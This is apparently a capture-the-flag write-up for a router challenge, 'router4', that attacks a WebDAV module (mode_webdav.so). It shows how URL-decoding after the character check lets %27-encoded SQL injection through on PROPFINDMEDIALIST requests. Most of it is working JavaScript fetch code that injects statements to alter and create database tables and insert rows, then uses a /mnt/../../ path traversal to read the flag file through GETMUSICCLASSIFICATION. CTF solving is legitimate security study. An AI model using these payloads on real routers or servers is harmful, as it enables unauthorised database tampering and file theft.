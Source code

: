 # router4

In `mode_webdav.so`, it first checks for invalid characters and then do url decode when handle `PROPFINDMEDIALIST` request, making it easy to bypass the check with `%27`.

![Alt text](assests/image.png)

![Alt text](assests/image-1.png)

However, the database includes a distinct DETAILS table and lacks the `OBJECTS` and `ALBUM_ART` tables, resulting in several functions not functioning as intended.

![Alt text](assests/image-2.png)

`GETMUSICCLASSIFICATION` method has `get_album_cover_image` method which can load file content and leak.

![Alt text](assests/image-3.png)

If we want to use `GETMUSICCLASSIFICATION` to leak the flag, the first thing we need to do is change or create the table to make it work. This is easy to do.

```js
val = ("a' OR 1 );ALTER TABLE DETAILS ADD COLUMN ALBUM_ART INTEGER DEFAULT 0; -- ").split("'").join("%27")
console.log(val.length)
await fetch("/RWCTF", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 );ALTER TABLE DETAILS ADD COLUMN ARTIST TEXT COLLATE NOCASE; -- ").split("'").join("%27")
console.log(val.length)
await fetch("/RWCTF", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 ); CREATE TABLE ALBUM_ART (ID INTEGER PRIMARY KEY AUTOINCREMENT, PATH TEXT NOT NULL); -- ").split("'").join("%27")
console.log(val.length)
await fetch("/RWCTF", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 );CREATE TABLE OBJECTS(ID INTEGER PRIMARY KEY AUTOINCREMENT,OBJECT_ID TEXT UNIQUE NOT NULL,PARENT_ID TEXT NOT NULL,REF_ID TEXT,CLASS TEXT NOT NULL,DETAIL_ID INTEGER,NAME TEXT); -- ").split("'").join("%27")
console.log(val.length)
await fetch("/RWCTF", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

```

After that, we need to pass a sql query in order to enter `get_album_cover_image` and load the path we inject.

![Alt text](assests/image-4.png)

To do so, we need to insert some data into the tables.

```js
val = ("a' OR 1 ); INSERT INTO OBJECTS (PARENT_ID, OBJECT_ID, DETAIL_ID, CLASS) VALUES ('1$7', " + oId + ", " + dId + ", 'container.album.musicAlbum'); -- ").split("'").join("%27")
console.log(val.length)

await fetch("/RWCTF", {
  "headers": {

    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 );  INSERT INTO ALBUM_ART (PATH, ID) VALUES ('" + path + "', " + pId + "); -- ").split("'").join("%27")
console.log(val.length)


await fetch("/RWCTF", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});
```

The next thing to do is bypass the check for path which should start with `/mnt`, but `/mnt` is actually `/tmp/mnt/` so the path should be `/mnt/../../flag`.

Then we can get the content of flag by calling `GETMUSICCLASSIFICATION` method.

```js
await fetch("/RWCTF", {
  "headers": {
    "classify": "album",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "GETMUSICCLASSIFICATION"
}).then(a => a.text())
```
